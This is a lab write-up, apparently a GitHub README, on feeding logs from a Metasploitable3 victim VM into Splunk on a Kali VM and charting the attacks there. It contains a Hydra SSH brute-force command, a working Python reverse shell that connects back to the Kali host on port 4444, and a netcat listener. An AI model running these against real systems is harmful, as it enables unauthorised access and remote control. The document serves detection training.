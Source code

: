 # 🛡️ Phase 2: SIEM - Dashboard Analysis

## 🎯 Objective.

- Integrate logs from the **victim machine** (Metasploitable3) into a **SIEM server** (Splunk running on the attacker/Kali VM).
- Visualize attack logs to identify patterns such as brute-force attempts and reverse shells.
- Compare the behavior and timeline of events before and after compromise.

---

## 🔧 Splunk Server Setup (Kali VM)

### Installation
```bash
wget -O splunk-9.3.2.deb https://download.splunk.com/products/splunk/releases/9.3.2/linux/splunk-9.3.2-d8bb32809498-linux-2.6-amd64.deb
sudo dpkg -i splunk-9.3.2.deb
sudo /opt/splunk/bin/splunk start --accept-license
sudo /opt/splunk/bin/splunk enable boot-start
```

### Access Web Interface
Open in browser:
```
http://192.168.142.129:8000
```
Log in with:
- **Username:** admin
- **Password:** admin123

### Enable TCP 9997 Port (to receive logs)
- Navigate to **Settings > Forwarding and Receiving > Add New (Receive Data)**
- Add TCP port **9997**
- Click **Save**

---

## 🔗 Splunk Forwarder Setup (Metasploitable3 VM)

### Installation
```bash
wget -O splunkforwarder.tgz https://download.splunk.com/products/universalforwarder/releases/9.4.1/linux/splunkforwarder-9.4.1-e3bdab203ac8-linux-amd64.tgz
tar -xvzf splunkforwarder.tgz
sudo mv splunkforwarder /opt/splunkforwarder
sudo /opt/splunkforwarder/bin/splunk start --accept-license
```

### Connect to Splunk Server
```bash
sudo /opt/splunkforwarder/bin/splunk enable boot-start
sudo /opt/splunkforwarder/bin/splunk login -auth admin:admin123
sudo /opt/splunkforwarder/bin/splunk add forward-server 192.168.142.129:9997
```

### Add SSH Log Monitoring
```bash
sudo /opt/splunkforwarder/bin/splunk add monitor /var/log/auth.log
sudo /opt/splunkforwarder/bin/splunk restart
```

---

## ⚔️ Attacks Performed

### 1. SSH Brute-force with Hydra
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.142.131 -t 4
```

### 2. Reverse Shell via Python Script
```python
import socket,subprocess,os
s=socket.socket()
s.connect(("192.168.142.129",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```

### 3. Netcat Listener on Kali
```bash
nc -lvnp 4444
```

---

## 📊 Visualization in Splunk

### Open Splunk Search:
```
http://192.168.142.129:8000/en-US/app/search/search
```

### Sample Queries:
- Failed SSH logins:
  ```spl
  index=main "Failed password"
  ```
- Successful logins:
  ```spl
  index=main "Accepted password"
  ```
- Reverse shell detection:
  ```spl
  index=main "session opened" OR "session closed"
  ```

### Bar Chart Visualization:
- Use **Visualizations > Bar Chart**
- X-Axis: `_time`, Y-Axis: `count`, Split: `event_type`

---

## 📸 Required Screenshots

- Splunk web UI showing active log forwarding from Metasploitable3
- Search results for:
  - SSH brute-force (Hydra)
  - Reverse shell events
- Visualization bar charts for the above queries
- Terminal on Kali VM showing:
  - Hydra execution
  - Netcat receiving shell
  - Python reverse shell trigger

---

## 🧠 Conclusion

- SIEM integration was completed with Metasploitable3 as victim and Splunk on Kali as server.
- Attacks were successfully simulated and visualized.
- Dashboards clearly showed timeline escalation (Hydra ➔ login ➔ shell access).
- These logs will be compared in **Phase 3** against defense mechanisms.

> Proceed to Phase 3 for defensive implementation and validation.

